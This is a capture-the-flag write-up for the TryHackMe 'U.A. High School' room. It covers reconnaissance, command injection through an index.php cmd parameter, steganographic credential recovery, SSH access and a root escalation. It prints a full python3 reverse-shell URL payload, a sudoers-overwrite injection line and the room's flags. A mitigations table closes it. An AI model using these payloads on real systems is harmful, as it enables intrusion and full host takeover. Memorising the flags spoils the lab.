


# CTF Write-Up: [U.A. High School](https://tryhackme.com/room/yueiua)

> **Platform:** TryHackMe | **Difficulty:** Easy

---

## 🚩 Flags

<details><summary>User Flag</summary><code>THM{W3lC0m3_D3kU_1A_0n3f0rAll??}</code></details>
<details><summary>Root Flag</summary><code>THM{Y0U_4r3_7h3_NUm83r_1_H3r0}</code></details>

---

## 1. Reconnaissance

### Initial Nmap Scan

```bash
nmap -vv -oN Nmap/Initial -Pn <IP_ADDRESS>
```

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Detailed Nmap Scan

```bash
nmap -vv -oN Nmap/Detailed -p 22,80 -A <IP_ADDRESS>
```

| Port | Service | Version | Notes |
|------|---------|---------|-------|
| 22 | SSH | OpenSSH 8.2p1 | Ubuntu 4ubuntu0.13 |
| 80 | HTTP | Apache httpd 2.4.41 | Ubuntu; title: "U.A. High School" |

Two ports open — a standard SSH service and an Apache web server. The HTTP server returned a themed landing page for the U.A. High School application.

### Technology Fingerprinting (Wappalyzer)

| Category | Detail |
|----------|--------|
| Web Server | Apache HTTP Server 2.4.41 |
| OS | Ubuntu |
| Language | PHP |

### Web Enumeration (Gobuster)

```bash
gobuster dir -u http://<IP_ADDRESS>/ -w /usr/share/wordlists/dirb/common.txt
```

```
assets    (Status: 301) [--> http://<IP_ADDRESS>/assets/]
index.html (Status: 200)
```

The `/assets/` directory was noted for further enumeration:

```bash
gobuster dir -u http://<IP_ADDRESS>/assets -w /usr/share/wordlists/dirb/common.txt
```

```
images    (Status: 301) [--> http://<IP_ADDRESS>/assets/images/]
index.php (Status: 200) [Size: 0]
```

`index.php` with a 0-byte response is immediately suspicious — a blank PHP file that responds to requests suggests hidden functionality via query parameters.

---

## 2. Initial Access — Command Injection via index.php

### RCE Discovery

The `index.php` file was tested with a `cmd` parameter:

```
http://<IP_ADDRESS>/assets/index.php?cmd=ls
```

The response was Base64-encoded:

```
aW1hZ2VzCmluZGV4LnBocApzdHlsZXMuY3NzCg==
```

Decoded:

```
images
index.php
styles.css
```

Further confirmed with:

```
http://<IP_ADDRESS>/assets/index.php?cmd=whoami
```

Response decoded to `www-data` — unauthenticated RCE confirmed. All command output was Base64-encoded by the server before being returned.

### Reverse Shell

A listener was started on the attacking machine:

```bash
nc -lvnp 4444
```

The reverse shell was triggered via the `cmd` parameter:

```
http://<IP_ADDRESS>/assets/index.php?cmd=python3+-c+'import+socket,subprocess,os;s=socket.socket();s.connect(("<tun0>",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'
```

```
www-data@ip-10-49-186-142:/var/www/html/assets$
```

### Shell Stabilisation

The raw netcat shell had no TTY — `Ctrl+C` would terminate the connection, sudo prompts would behave unexpectedly, and tab completion was absent. `pty.spawn` promoted the shell to a pseudo-terminal; `stty raw -echo` passed keystrokes directly to the remote process; `fg` restored the connection with full TTY support.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
export TERM=xterm
```

✅ Shell as `www-data`.

---

## 3. Credential Discovery — Passphrase & Steganography

### Hidden Directory

Enumerating `/var/www/` revealed a non-web-accessible directory:

```bash
ls -la /var/www/
```

```
drwxrwxr-x  2 www-data www-data 4096 Jul  9  2023 Hidden_Content
drwxr-xr-x  3 www-data www-data 4096 Dec 13  2023 html
```

```bash
cat /var/www/Hidden_Content/passphrase.txt
```

```
QWxsbWlnaHRGb3JFdmVyISEhCg==
```

Decoded from Base64:

```
AllmightForEver!!!
```

### Corrupted Image — Magic Byte Fix

Two images were found at `/var/www/html/assets/images/`:

```
oneforall.jpg
yuei.jpg
```

`oneforall.jpg` was downloaded and inspected:

```bash
wget http://<IP_ADDRESS>/assets/images/oneforall.jpg
```

```bash
file oneforall.jpg
# oneforall.jpg: data
```

The `file` command returned `data` rather than a JPEG type — indicating a corrupt or misidentified header. Opening in **GHex** confirmed the problem: the file carried **PNG magic bytes** (`89 50 4E 47 0D 0A 1A 0A`) at offset `0x00`, while the rest of the file contained valid JPEG data (`FF DB` at offset `0x50` is a JPEG quantization table marker).



The first 8 bytes were overwritten in GHex with the correct JPEG magic bytes:

| Offset | Before (PNG) | After (JPEG) |
|--------|-------------|--------------|
| `0x00` | `89` | `FF` |
| `0x01` | `50` | `D8` |
| `0x02` | `4E` | `FF` |
| `0x03` | `47` | `E0` |
| `0x04` | `0D` | `00` |
| `0x05` | `0A` | `10` |
| `0x06` | `1A` | `4A` |
| `0x07` | `0A` | `46` |



```bash
file oneforall.jpg
# oneforall.jpg: JPEG image data, baseline, precision 8, 1140x570, components 3
```


### Steganography Extraction

With the image repaired and the passphrase in hand, `steghide` was used to extract hidden data:

```bash
steghide extract -sf oneforall.jpg
# Enter passphrase: AllmightForEver!!!
# wrote extracted data to "creds.txt"
```

```bash
cat creds.txt
```

```
Hi Deku, this is the only way I've found to give you your account credentials,
as soon as you have them, delete this file:

deku:One?For?All_!!one1/A
```

---

## 4. Lateral Movement — SSH as deku

SSH was open on port 22 per the Nmap scan. The extracted credentials were used directly:

```bash
ssh deku@<IP_ADDRESS>
# Password: One?For?All_!!one1/A
```

```
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-138-generic x86_64)
deku@ip-10-49-186-142:~$
```

✅ SSH session as `deku`.

---

## 5. User Flag

```bash
deku@ip-10-49-186-142:~$ cat user.txt
```

> 🚩 `THM{W3lC0m3_D3kU_1A_0n3f0rAll??}`

---

## 6. Privilege Escalation

### Enumeration

```bash
sudo -l
```

```
User deku may run the following commands on ip-10-49-186-142:
    (ALL) /opt/NewComponent/feedback.sh
```

`deku` can run `feedback.sh` as root. Inspecting the script:

```bash
cat /opt/NewComponent/feedback.sh
```

```bash
#!/bin/bash

echo "Hello, Welcome to the Report Form       "
echo "This is a way to report various problems"
echo "    Developed by                        "
echo "        The Technical Department of U.A."

echo "Enter your feedback:"
read feedback

if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input." 
fi
```

The script reads user input and passes it to `eval "echo $feedback"` — an unquoted variable expansion inside `eval`. The filter blocks common injection characters (`` ` ``, `)`, `$(`, `|`, `&`, `;`, `?`, `!`, `\`) but does not block `>` or spaces, leaving file redirection fully usable.

### Exploitation — sudoers Injection via Redirection

Since `>` is not filtered and the script runs as root, a line can be appended to `/etc/sudoers` granting `deku` unrestricted sudo access:

```bash
sudo /opt/NewComponent/feedback.sh
```

```
Enter your feedback:
deku ALL=NOPASSWD: ALL >> /etc/sudoers
```

Verified:

```bash
sudo -l
```

```
    (ALL) /opt/NewComponent/feedback.sh
    (root) NOPASSWD: ALL
```

### Root Shell

```bash
sudo su
```

```
root@ip-10-49-186-142:/home/deku# whoami
root
```

✅ Root shell obtained.

---

## 7. Root Flag

```bash
cat /root/root.txt
```

> 🚩`THM{Y0U_4r3_7h3_NUm83r_1_H3r0}`

---

## 8. Attack Chain

```
Nmap Scan
    └─► Port 22 (SSH), Port 80 (Apache / PHP)

Gobuster → /assets/index.php
    └─► cmd parameter → RCE as www-data (output Base64-encoded by server)
    └─► Reverse shell established

/var/www/Hidden_Content/passphrase.txt
    └─► Base64 decoded → AllmightForEver!!!

/assets/images/oneforall.jpg — corrupted magic bytes (PNG header on JPEG)
    └─► GHex: bytes 0x00–0x07 overwritten with JPEG magic
    └─► steghide extract → creds.txt → deku:One?For?All_!!one1/A

ssh deku@<IP_ADDRESS>
    └─► Session established → user.txt: THM{W3lC0m3_D3kU_1A_0n3f0rAll??}

sudo /opt/NewComponent/feedback.sh
    └─► eval "echo $feedback" — unquoted, > not filtered
    └─► deku ALL=NOPASSWD: ALL >> /etc/sudoers
    └─► sudo su → root → root.txt: THM{Y0U_4r3_7h3_NUm83r_1_H3r0}
```

---

## 9. Vulnerabilities & Mitigations

| # | Vulnerability | Impact | Mitigation |
|---|---------------|--------|------------|
| 1 | Unauthenticated RCE via `cmd` parameter in `index.php` | Remote code execution as `www-data` | Remove debug/exec endpoints; validate and sanitise all user input; never pass user-controlled data to shell execution functions |
| 2 | Sensitive credentials stored in a world-readable directory (`/var/www/Hidden_Content/`) | Passphrase retrieved by any low-privilege user | Restrict file permissions; never store credentials on the web server filesystem |
| 3 | Corrupted image used as a steganography carrier | Credentials hidden in plain sight on the web server | Audit files served publicly; use integrity checks on static assets |
| 4 | Unquoted variable in `eval "echo $feedback"` with incomplete input filter | `>` redirection allowed arbitrary file writes as root | Quote all variables in eval; avoid `eval` entirely; use allowlists rather than blocklists for input validation |
| 5 | Low-privilege user able to write to `/etc/sudoers` via a root-executed script | Full privilege escalation to root | Remove write access to privilege configuration files from script-executed contexts; apply strict sudoers rules |

---

*U.A. High School — TryHackMe | Rooted ✅*